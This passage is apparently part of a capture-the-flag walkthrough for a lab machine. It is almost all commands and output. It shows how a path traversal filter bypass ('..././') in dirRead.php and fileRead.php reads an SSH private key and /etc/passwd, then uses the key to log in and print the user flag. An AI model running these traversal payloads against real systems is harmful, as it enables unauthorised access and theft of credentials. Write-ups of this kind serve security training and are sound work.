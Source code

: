#### 2.1. SSH-RSA private key
```
# http -f http://10.10.10.87/dirRead.php path=..././..././..././..././..././ -b
[
    ".",
    "..",
    ".monitor",
    "authorized_keys",
    "id_rsa",
    "known_hosts"
]
```


#### 2.2. Getting the private key
```
# http -f http://10.10.10.87/fileRead.php \
file=..././..././..././..././..././home/nobody/.ssh/id_rsa \
| jq .file | tr -d '|' | xargs echo -e > waldo_user.private_key
```


#### 2.3. SSH user
```
# http -f http://10.10.10.87/fileRead.php \
file=..././..././..././..././..././etc/passwd \
| jq .file | tr -d '|' | xargs echo -e | grep nobody
nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
```


#### 2.4. SSH access
```
# chmod 600 waldo_user.private_key
# ssh -i waldo_user.private_key nobody@10.10.10.87
```


#### 2.5. User flag
```
waldo:~$ cat user.txt
32768bcd7513275e085fd4e7b63e9d24
```
